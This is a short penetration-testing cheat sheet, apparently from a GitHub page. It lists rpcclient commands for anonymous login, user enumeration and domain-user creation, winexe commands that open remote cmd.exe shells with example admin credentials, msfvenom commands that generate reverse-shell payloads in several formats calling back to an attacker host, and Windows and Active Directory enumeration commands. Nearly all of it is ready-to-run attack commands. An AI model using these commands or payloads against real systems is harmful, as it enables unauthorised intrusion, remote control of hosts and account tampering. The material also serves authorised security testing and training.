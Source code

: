 ```powershell
rpcclient -U=user $IP
rpcclient -U="" $IP #Anonymous login
##Commands within in RPCclient
srvinfo
enumdomusers #users
enumpriv #like "whoami /priv"
queryuser <user> #detailed user info
getuserdompwinfo <RID> #password policy, get user-RID from previous command
lookupnames <user> #SID of specified user
createdomuser <username> #Creating a user
deletedomuser <username>
enumdomains
enumdomgroups
querygroup <group-RID> #get rid from previous command
querydispinfo #description of all users
netshareenum #Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenumall
lsaenumsid #SID of all users
```
### winexe

```powershell
# winexe -U 'admin%password123' //192.168.200.141 cmd.exe
# winexe -U 'admin%password123' --system //192.168.200.141 cmd.exe
```

### MSFVENOM
```powershell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```


### AD
.NET :
```powershell
whoami
```
```powershell
hostname
```
Enum Local users:
```powershell
net users
```
```powershell
net user
PS> Get-LocalUser
```
Enum Domain users:
```powershell
net users /domain
```
Enum Domain Groups:
```powershell
net groups /domain 
```
Enum Local Groups:
```powershell
net localgroup
```